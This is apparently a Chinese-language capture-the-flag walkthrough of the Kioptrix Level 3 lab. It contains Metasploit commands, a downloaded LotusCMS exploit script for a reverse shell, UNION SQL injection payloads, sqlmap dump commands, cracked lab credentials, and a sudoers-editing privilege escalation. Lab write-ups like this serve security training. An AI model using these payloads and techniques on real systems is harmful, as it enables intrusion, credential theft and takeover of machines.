










# 环境

来自[Kioptrix_Levl_3](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

由于解析问题，hosts需要添加`192.168.88.27  kioptrix3.com`才能进行正确访问http://kioptrix3.com/gallery/


# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

确定ip：`192.168.88.27`


## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.27
```

确认开发端口`22,80`


## 服务探测

```bash
sudo nmap -sV -O -p22,80 192.168.88.27
```

首先考虑80端口，apache版本不低，找不到可利用漏洞


## 指纹识别

```bash
whatweb http://192.168.88.27
```



## 目录扫描

```bash
dirsearch -u http://192.168.88.27
dirsearch -u http://192.168.88.27/gallery/
```

目录信息

```bash
http://192.168.88.27/gallery/  #站点内容
http://192.168.88.27/modules/Backup/ #备份文件
http://192.168.88.27/phpmyadmin/ #数据管理后台
http://192.168.88.27/cache/
http://192.168.88.27/gallery/db.sql  #创建数据库表的sql语句
http://192.168.88.27/gallery/gadmin/ #gallery的内容管理后台
http://192.168.88.27/gallery/photos/ #图片
http://192.168.88.27/gallery/themes/ #主题
http://192.168.88.27/gallery/version.txt  #gallery的版本信息
```

# web渗透

## 已知漏洞getshell

### 法一

访问80端口，页面如下，很快发现有一个Login功能，进去测试一下


确实是LotusCMS内容管理系统


进行漏扫，发现Metaspoit可利用的RCE，后面的16982.txt都是一下中低危的xss和ssrf，构造起来比较麻烦


启动MSF（这种集成化的工具还是少用，要了解漏洞利用原理)

```bash
msfconsole
search lotuscms
use 0  #或者use exploit/multi/http/lcms_php_exec 
show options  #查看攻击参数
set rhost 192.168.88.27
set rport 80
set uri /
set lhost 192.168.88.10
set lport 4444
set payload generic/shell_bind_tcp
run
```

拿下shell


为了拿到更好的交互shell，可以查看是否有pyhon

```bash
dpkg -l | grep python
python -c "import pty;pty.spawn('/bin/bash')"
```

可以查看网站的配置文件

```bash
www-data@Kioptrix3:/home/www/kioptrix3.com$ ls -alh
ls -alh
total 92K
drwxr-xr-x  8 root root 4.0K Apr 15  2011 .
drwxr-xr-x  3 root root 4.0K Apr 12  2011 ..
drwxrwxrwx  2 root root 4.0K Apr 15  2011 cache
drwxrwxrwx  8 root root 4.0K Apr 14  2011 core
drwxrwxrwx  8 root root 4.0K Apr 14  2011 data
-rw-r--r--  1 root root  23K Jun  5  2009 favicon.ico
drwxr-xr-x  7 root root 4.0K Apr 14  2011 gallery
-rw-r--r--  1 root root  26K Jan 21  2007 gnu-lgpl.txt
-rw-r--r--  1 root root  399 Feb 23  2011 index.php
drwxrwxrwx 10 root root 4.0K Apr 14  2011 modules
drwxrwxrwx  3 root root 4.0K Apr 14  2011 style
-rw-r--r--  1 root root  243 Aug  5  2010 update.php
www-data@Kioptrix3:/home/www/kioptrix3.com$ ls -alh ./gallery
drwxr-xr-x 7 root root 4.0K Apr 14  2011 .
drwxr-xr-x 8 root root 4.0K Apr 15  2011 ..
drwxr-xr-x 2 root root 4.0K Apr 12  2011 BACK
-rw-r--r-- 1 root root 3.5K Oct 10  2009 db.sql
-rw-r--r-- 1 root root  252 Apr 12  2011 g.php
drwxr-xr-x 3 root root 4.0K Apr 12  2011 gadmin
-rw-r--r-- 1 root root  214 Apr 12  2011 gallery.php
-rw-r--r-- 1 root root 1.5K Apr 14  2011 gconfig.php
-rw-r--r-- 1 root root  297 Apr 12  2011 gfooter.php
-rw-r--r-- 1 root root  38K Apr 12  2011 gfunctions.php
-rw-r--r-- 1 root root 1009 Apr 12  2011 gheader.php
-rw-r--r-- 1 root root  249 Apr 12  2011 index.php
-rw-r--r-- 1 root root  11K Apr 12  2011 install.BAK
-rw-r--r-- 1 root root  212 Apr 12  2011 login.php
-rw-r--r-- 1 root root  213 Apr 12  2011 logout.php
-rw-r--r-- 1 root root  249 Apr 12  2011 p.php
drwxrwxrwx 2 root root 4.0K Apr 12  2011 photos
-rw-r--r-- 1 root root  213 Apr 12  2011 photos.php
-rw-r--r-- 1 root root  219 Apr 12  2011 post_comment.php
-rw-r--r-- 1 root root  214 Apr 12  2011 profile.php
-rw-r--r-- 1 root root   87 Oct 10  2009 readme.html
-rw-r--r-- 1 root root  213 Apr 12  2011 recent.php
-rw-r--r-- 1 root root  215 Apr 12  2011 register.php
drwxr-xr-x 2 root root 4.0K Apr 13  2011 scopbin
-rw-r--r-- 1 root root  213 Apr 12  2011 search.php
-rw-r--r-- 1 root root  216 Apr 12  2011 slideshow.php
-rw-r--r-- 1 root root  211 Apr 12  2011 tags.php
drwxr-xr-x 6 root root 4.0K Apr 12  2011 themes
-rw-r--r-- 1 root root   56 Oct 10  2009 version.txt
-rw-r--r-- 1 root root  211 Apr 12  2011 vote.php
www-data@Kioptrix3:/home/www/kioptrix3.com$ cat ./gallery/gconfig.php
<?php
  error_reporting(0);
  /*
    A sample Gallarific configuration file. You should edit
    the installer details below and save this file as gconfig.php
    Do not modify anything else if you don't know what it is.
  */
  // Installer Details -----------------------------------------------
  // Enter the full HTTP path to your Gallarific folder below,
  // such as http://www.yoursite.com/gallery
  // Do NOT include a trailing forward slash
  $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";
  $GLOBALS["gallarific_mysql_server"] = "localhost";
  $GLOBALS["gallarific_mysql_database"] = "gallery";
  $GLOBALS["gallarific_mysql_username"] = "root";
  $GLOBALS["gallarific_mysql_password"] = "fuckeyou";
  // Setting Details -------------------------------------------------
  if(!$g_mysql_c = @mysql_connect($GLOBALS["gallarific_mysql_server"], $GLOBALS["gallarific_mysql_username"], $GLOBALS["gallarific_mysql_password"])) {
    echo("A connection to the database couldn't be established: " . mysql_error());
    die();
  }else {
    if(!$g_mysql_d = @mysql_select_db($GLOBALS["gallarific_mysql_database"], $g_mysql_c)) {
      echo("The Gallarific database couldn't be opened: " . mysql_error());
      die();
    }else {
      $settings=mysql_query("select * from gallarific_settings");
      if(mysql_num_rows($settings)!=0){
        while($data=mysql_fetch_array($settings)){
          $GLOBALS["{$data['settings_name']}"]=$data['settings_value'];
        }
      }
    }
	}
?>
```

得到mysql的账号密码，登录phpmyadmin

```
账号：root
密码：fuckeyou
```

查看数据库信息，得到系统用户账号密码，可进行ssh



gallery后台内容管理平台账号密码



因为已经有系统用户账号，后续直接ssh登录进行提取，有兴趣可以尝试在gallery后台内容管理平台找漏洞进行上马拿shell

### 法二

我们不使用msf的漏洞，去google寻找该LotusCMS相关漏洞利用，[github](https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh)有相关漏洞利用脚本

```bash
wget https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh
chmod 755 lotusRCE.sh
./lotusRCE.sh 192.168.88.27
根据提示输入反弹shell的ip和端口
```



后续如上

### 法三

可以尝试找到phpMyAdmin 2.11.3的漏洞，但是好像找不到

## sql注入getshell

根据提示说明有sql注入在http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos这个目录下我们发现，着存在sql注入，抓包是GET请求



### 手工注入

#### 判断注入类型

payload=`http://kioptrix3.com/gallery/gallery.php?id=1 and 1=2`，发现无报错，但是在1后门加什么都是报错，估计是数字型

#### 确定回显位

payload=`http://kioptrix3.com/gallery/gallery.php?id=1 order by 6--+`等于7报错，说明有6个回显位

payoad=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,2,3,4,5,6--+`，可以看出是2，3有回显



#### 爆表名

payload=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='gallery'),database(),4,5,6--+`逐个查看表名发现dev_accounts，gallarific_users是账号表


#### 爆列名

dev_accounts表的列名payload=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='dev_accounts'),database(),4,5,6--+`发现username,password比较重要



gallarific_users表的列名payload=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='gallarific_users'),database(),4,5,6--+`发现username,password比较重要



#### 爆字段

dev_accounts表字段payload=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,(select group_concat(username,';',password) from dev_accounts),3,4,5,6--+`




gallarific_users表字段payload=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,(select group_concat(username,';',password) from gallarific_users),3,4,5,6--+`


### sqlmap

```bash
#查看数据库
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' --dbs
#查看某个数据库的表
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' --tables
#查看字段
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' -T 'dev_accounts,gallarific_users' --columns
#查看数据
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' -T 'dev_accounts,gallarific_users' -C 'username,password' --dump
```

重要信息

```bash
发现这个是系统用户账号，进行ssh登录
账号：dreg
密码：0d3eccfb887aabd50f243b3f155c0f85
md5解密：Mast3r
ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss dreg@192.168.88.27

发现这个也是系统用户账号，进行ssh登录
账号：loneferret
密码：5badcaf789d3d1d09794d8f021f40f0e
md5解密：starwars
ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss loneferret@192.168.88.27

由于目录爆破还有http://192.168.88.27/gallery/gadmin/,使用该账号成功登录gall管理后台
账号：admin
密码：n0t7t1k4

phpmyadmin都不是这些账号
```

## 提权

dreg账号就没啥权限，使用loneferret账号登录，发现有提示文件，发现可以使用编辑器



进行提权

```bash
sudo /usr/local/bin/ht #如果报错xterm-256color
export TERM=xterm
#alt+f，修改/etc/sudoers，添加给当前用户添加/bin/bash，即可提权
```

也可以使用其他方式提取，内核提取等
